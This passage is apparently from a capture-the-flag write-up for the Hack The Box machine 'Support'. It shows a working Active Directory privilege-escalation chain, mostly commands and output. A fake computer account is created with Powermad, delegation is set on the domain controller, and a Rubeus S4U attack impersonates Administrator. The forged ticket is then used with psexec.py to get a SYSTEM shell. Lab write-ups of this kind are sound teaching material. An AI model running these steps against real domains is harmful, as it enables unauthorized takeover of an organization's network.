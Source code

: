 ```powershell
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

Verification:

```powershell
Get-ADComputer -Identity FAKE-COMP01
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Machine FAKE-COMP01 successfully created!
    </p>
</div>

### Configure Delegation

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

### S4U Attack with Rubeus

RC4 hash:

```powershell
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

Execution:

```powershell
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-ticket-alt mr-2 text-green-500"></i>
        Kerberos ticket for Administrator generated and injected!
    </p>
</div>


## 👑 Phase 10 — SYSTEM Shell

Ticket conversion and usage:

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
